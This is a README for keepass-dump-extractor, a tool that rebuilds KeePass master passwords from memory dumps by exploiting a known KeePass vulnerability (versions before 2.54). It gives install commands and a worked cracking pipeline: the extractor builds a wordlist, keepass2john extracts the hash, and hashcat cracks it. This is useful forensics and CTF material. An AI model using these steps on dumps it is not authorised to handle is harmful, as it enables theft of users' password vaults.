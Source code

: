 # KeePass Memory Dump Extractor

**Find and collect parts of a Keepass master key to recover it in plain text from a memory dump**

While typing out the master key to unlock a KeePass database, the value of the input box is stored in memory. While it is visually hidden using '●' characters, the last character was briefly visible in memory, and keeps being stored there ([CVE-2023-3278](https://nvd.nist.gov/vuln/detail/CVE-2023-32784), version < 2.54). That makes it possible to find strings like the following in the memory dump:

```
s
●e
●●c
●●●r
●●●●e
●●●●●t
```

This tool finds such strings and **combines them** into one password. Due to noise or retyping in the memory dump it will also print some false positives (especially for earlier characters), but with brute-forcing or a bit of common sense these should be easy to filter out. 

It differes from existing tools (like [`keepass-password-dumper`](https://github.com/vdohney/keepass-password-dumper) or [`keepass-dump-masterkey`](https://github.com/matro7sh/keepass-dump-masterkey)) in the various useful output formats, and its ability to extract non-ascii character in UTF16 encoding. If the master key uses unicode characters like 'ø', this tool will be able to find those too (iykyk). 

## Installation

```Bash
cargo install keepass-dump-extractor
```

Or **download** and **extract** a pre-compiled binary from the [Releases](https://github.com/JorianWoltjer/keepass-dump-extractor/releases) page. 

## Common usage

This attack requires a memory dump of the KeePass process, and can generate all possible master keys to unlock the keepass database file (`.kdbx`). With the following commands, you can generate a wordlist, extract the hash from the database, and crack it with the wordlist:

```bash
keepass-dump-extractor KeePassDumpFull.dmp -f all > wordlist.txt

keepass2john passwords.kdbx > passwords.kdbx.hash
hashcat -m 13400 --username passwords.kdbx.hash wordlist.txt
```

Within a few seconds you should be able to find the password with this method, if most of the typed master key was inside of the memory dump. For more complex cases where there is limited information however, some different [output formats](#output-formats) might allow you to manually find what fits. 

## Output Formats

The `-f` (`--format`) option allows you to choose an output format that fits your use case the best. Here are its possible values:

> **Warning**: The following output examples were articicially made clearer by *adding a first charcter*, but in reality, the first character cannot be recovered because it not easily recognizable by a prefixed '●' in the memory dump.

#### (default) `found`: Directly print all hints about the password

Deduplicate and order unknowns by number of occurences, so the first character will likely be the correct one.  
For example:

```
s
●e
●3
●●c
●●●r
●●●●e
●●●●3
●●●●●t
```

#### `gaps`: Summarize the hints into the full size, leaving gaps for unknown characters

Group positions together to permute one position at a time. Ordered by number of occurences, so the first character will likely be the correct one. Useful for manually comparing what letter fits best in between known letters.  
For example:

```
secr●t
s3cr●t
s●cret
s●cr3t
```

#### `all`: Print all possible permutations of the password

Using the unknown characters, it generates the "cartesian product" meaning all possible passwords are output. This is useful for generating a wordlist for cracking tools like hashcat.  
For example:

```
secret
s3cret
secr3t
secr3t
```

#### `raw`: Write the raw results with all found information

Print the raw results as this tool parsed them, useful for scripts. It is also the only way to view how many times a character occured at that position in the memory dump, normally this is only seen in the order.  
For example:

```
10	0	s
10	1	e
2	1	3
10	2	c
10	3	r
1	4	3
10	4	e
10	5	t
```
